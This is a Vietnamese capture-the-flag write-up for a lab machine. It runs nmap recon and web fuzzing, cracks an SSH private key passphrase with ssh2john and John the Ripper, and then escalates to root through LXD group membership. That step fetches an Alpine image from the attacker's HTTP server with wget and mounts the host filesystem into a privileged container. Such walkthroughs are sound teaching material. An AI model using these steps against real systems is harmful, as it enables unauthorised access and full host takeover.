









## Recon
Như thường lệ, chúng ta bắt đầu bằng việc quét nmap để liệt kê thông tin.
```bash
┌──(root㉿duongpahm)-[/home/duongpahm]
└─# nmap -sVC 10.49.156.19
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-27 20:57 -0500
Nmap scan report for 10.49.156.19
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.68 seconds
```
Ta thấy cổng 22 đang mở trên SSH, cổng 80 cũng mở cho http, như vậy bây giờ chúng ta sẽ kiểm tra chúng. Chúng ta thấy rằng đây là một page của một nhà sản game

Chúng ta thấy một thông báo dành cho người dùng tên là **john** ở cuối phần mã nguồn của trang `index.html`. Cái tên này có thể sẽ hữu ích về sau, nếu chúng ta thử đăng nhập vào đâu đó.

Sau khi thực hiện fuzzing ở port 80, ta tìm thấy một số endpoint như `/robots.txt`, `/secret`, `/uploads`

### Secret
Truy cập vào endpoint `/secret` ta thu được secretKey

### Uploads
Chúng ta nhận được 3 file.  
- `dict.lst` là một danh sách các mật khẩu phổ biến, tương tự như - file `fasttrack.txt` trong Kali.  
- `manifesto.txt` thì chỉ đơn giản là một bản tuyên ngôn.  
- File `meme.jpg` yêu cầu một passphrase khi dùng steghide.

Hãy crack nó bằng wordlist mà họ đã cung cấp.  
Lệnh sau sẽ chuyển đổi private key sang định dạng mà John có thể sử dụng để crack.
```bash
┌──(duongpahm㉿duongpahm)-[~/Desktop]
└─$ vim id_rsa                                             
┌──(duongpahm㉿duongpahm)-[~/Desktop]
└─$ ssh2john id_rsa > id_rsa.hash                          
┌──(duongpahm㉿duongpahm)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)     
1g 0:00:00:00 DONE (2026-01-27 21:29) 100.0g/s 51200p/s 51200c/s 51200C/s genesis..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Sau khi tìm được password ta thực hiện ssh vào bằng lệnh `ssh -i id_rsa john@ip`

Như vậy ta thu được flag của user.txt

### Root
Kiểm tra credencial của user hiện tại, ta sử dụng lệnh `id`. Có thể thấy user hiện tại đang thuộc nhóm `lxd (gid 108)`, có thể lợi dụng để thực hiện kỹ thuật theo thang đang quyền vì LXD chạy với quyền root, ta có thể tạo một
```bash
john@exploitable:/$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
Đây là kỹ thuật **LXD Privilege Escalation**. Vì nhóm `lxd` có quyền quản lý các container chạy dưới quyền root, chúng ta sẽ tạo một container "đặc quyền" (privileged) và gắn (mount) toàn bộ ổ cứng của máy thật vào một thư mục bên trong container đó.
Chúng ta cần tạo ra một ảnh (image) hệ điều hành Alpine siêu nhẹ để làm "mồi".
1. **Tải script builder:**
```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
```
2. **Mở server để chuyển file:**
```bash
python3 -m http.server 80
```
Bây giờ, quay lại cửa sổ SSH đang đăng nhập bằng user `john`. Di chuyển vào thư mục có quyền ghi
```
cd /tmp
wget http://192.168.185.120/alpine-v3.13-x86_64-xxxxxxxx.tar.gz
```
Khai thác LXD để chiếm quyền Root. Đây là phần quan trọng nhất. Hãy thực hiện tuần tự các lệnh sau:
```bash
lxc image import ./alpine-v3.13-x86_64-xxxxxxxx.tar.gz --alias myimage
```
(Kiểm tra lại bằng lệnh `lxc image list` để chắc chắn đã có `myimage`)
Khởi tạo container với quyền đặc quyền:
```bash
lxc init myimage ignite -c security.privileged=true
```
Gắn toàn bộ ổ đĩa của máy thật vào container: Lệnh này sẽ lấy thư mục gốc `/` của máy thật và gắn nó vào thư mục `/mnt/root` bên trong container. Sau đó khởi tạo container
```bash
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
```
Truy cập vào container và lấy quyền Root:
```bash
lxc exec ignite /bin/sh
```


